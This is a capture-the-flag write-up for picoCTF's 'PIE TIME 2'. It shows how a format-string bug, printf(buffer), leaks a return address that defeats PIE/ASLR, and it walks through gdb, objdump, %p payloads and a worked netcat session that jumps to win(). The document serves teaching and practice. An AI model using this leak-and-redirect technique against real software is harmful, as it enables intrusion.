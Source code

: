 # PIE TIME 2 #
 
## Overview ##

200 points

Category: [Binary Exploitation](../)

Tags: `#binaryexploitation #PIE #formatstring #infoleak #ASLR`

## Description ##

Can you try to get the flag? I'm not revealing anything anymore!!

## Approach ##

Checking the binary securities to confirm as we expect given the name of the challenge, the binary is indeed a Position Independent Executable (PIE), as per the previous [PIE TIME](../PIE%20TIME/PIE%20TIME.md) challenge.

    $ checksec vuln
    [*] '/home/user/picoCTF/PIE-TIME-2/vuln'
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled

Inspecting the provided `vuln.c` source file, we see `main()` calls the function `call_functions()`.

    int main() {
      signal(SIGSEGV, segfault_handler);
      setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

      call_functions();
      return 0;
    }

Where `call_functions()` again requests an address as input to call as a function pointer.

    void call_functions() {
      char buffer[64];
      printf("Enter your name:");
      fgets(buffer, 64, stdin);
      printf(buffer);

      unsigned long val;
      printf(" enter the address to jump to, ex => 0x12345: ");
      scanf("%lx", &val);

      void (*foo)(void) = (void (*)())val;
      foo();
    }

We cannot overflow `buffer` as the `fgets()` is using the correct value for its `size` parameter. However our user input within `buffer` is printed directly via the `printf(buffer)` call, and not as parameter within a format string, hence is vulnerable to a format string exploit.

The format string vulnerability will be used to leak information from the stack, in this case our return address from `call_functions()` back to `main()`.

So our plan of attack is;

- determine what the value of the return address is
- use a format string attack to leak contents of the stack in an attempt to locate this return address
- calculate the relative offset from this return address to the `win()`, such that we can adjust the leaked value of the return address by this relative offset.

Running `vuln` in `gdb` to assist with locating the return address within the format string based infoleak. Remembering that Address Space Layout Randomisation (ASLR) is disabled when processes are being debugged in `gdb`.

    $ gdb ./vuln
    $ br call_functions
    $ r

When execution breaks at the entry of `call_functions()` we can inspect the stack and see our return address is `0x00555555555441`.

    ───────────────────────────────────────────────────────────────────── stack ────
    0x007fffffffdfb0│+0x0000: 0x007fffffffdfc0  →  0x0000000000000001  ← $rsp, $rbp
    0x007fffffffdfb8│+0x0008: 0x00555555555441  →  <main+65> mov eax, 0x0
    0x007fffffffdfc0│+0x0010: 0x0000000000000001
    0x007fffffffdfc8│+0x0018: 0x007ffff7c29d90  →  <__libc_start_call_main+128> mov edi, eax
    0x007fffffffdfd0│+0x0020: 0x0000000000000000
    0x007fffffffdfd8│+0x0028: 0x00555555555400  →  <main+0> endbr64 
    0x007fffffffdfe0│+0x0030: 0x00000001ffffe0c0
    0x007fffffffdfe8│+0x0038: 0x007fffffffe0d8  →  0x007fffffffe408  →  "/home/user/picoCTF/PIE-TIME-2/vuln"

Now continuing execution, we are prompted for our input, at which point we cant to use a typical format string attack to leak contents of the stack, by requesting a series of pointers (`%p`) be printed via the `printf()` call. Given there are no arguments supplied with this format string, `printf()` will print values from the stack at where the arguments should be been located.

The `%p.` input string was created using python's CLI for convenience in preparation:

    $ python3 -c 'print("%p."*20)'
    %p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.

The periods in the string just help to isolate individual values and assist with readability, but not a requirement.

    $ c
    Continuing.
    Enter your name:%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
    0x5555555592a1.0xfbad2288.0x5555555592dd.(nil).0x5555555592a0.(nil).0x7ffff7e1b780.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0xa2e70252e.0x7fffffffe108.0xdca80e800e918600.0x7fffffffdff0.0x555555555441.0x1.

We find our return address of `0x00555555555441` at the 19'th value displayed in the output.

Remembering when it comes to the actual attack on the challenge server a short hand format string to print only the 19'th value is: `%19$p`.

Using `objdump` I found the offsets of the return address within `main()` from `call_functions()` and `win()`. Remembering as the code segment is position independent, we are only interested in the relative offset not absolute values. Note that this could have been done whilst still in `gdb` rather than using `objdump`, but I did this step first when solving the challenge.

    $ objdump -M intel -d vuln > objdump_vuln.txt

        0000000000001400 <main>:
            1400: f3 0f 1e fa           endbr64 
            1404: 55                    push   rbp
            1405: 48 89 e5              mov    rbp,rsp
            1408: 48 8d 35 9a fe ff ff  lea    rsi,[rip+0xfffffffffffffe9a]        # 12a9 <segfault_handler>
            140f: bf 0b 00 00 00        mov    edi,0xb
            1414: e8 57 fd ff ff        call   1170 <signal@plt>
            1419: 48 8b 05 f0 2b 00 00  mov    rax,QWORD PTR [rip+0x2bf0]        # 4010 <stdout@GLIBC_2.2.5>
            1420: b9 00 00 00 00        mov    ecx,0x0
            1425: ba 02 00 00 00        mov    edx,0x2
            142a: be 00 00 00 00        mov    esi,0x0
            142f: 48 89 c7              mov    rdi,rax
            1432: e8 49 fd ff ff        call   1180 <setvbuf@plt>
            1437: b8 00 00 00 00        mov    eax,0x0
            143c: e8 86 fe ff ff        call   12c7 <call_functions>
        ->  1441: b8 00 00 00 00        mov    eax,0x0
            1446: 5d                    pop    rbp
            1447: c3                    ret    

and,

        000000000000136a <win>:
            136a: f3 0f 1e fa           endbr64 
            136e: 55                    push   rbp
            136f: 48 89 e5              mov    rbp,rsp
            1372: 48 83 ec 10           sub    rsp,0x10
            ...

Return address offset within `main()` is `0x1441` and `win()` address offset is `0x136a`. Therefore the relative offset from the return address to `win()` is:

    `0x1441 - 0x136a = 0xD7`

So we now have everything we need to run the attack on the challenge server.

## Solution ##

Running the attack on the challenge server:

    $ nc rescued-float.picoctf.net 65060
    Enter your name:%19$p
    0x5bd617cbc441
     enter the address to jump to, ex => 0x12345: 0x5BD617CBC36A
    You won!
    picoCTF{...........redacted.............}

The return address back to  `main()` for this invocation was `0x5bd617cbc441`.

Therefore `0x5bd617cbc441 - 0xd7 = 0x5BD617CBC36A`, inputting this calculated address of `win()` dropped us the flag.

Where the actual flag value has been redacted for the purposes of this write up.
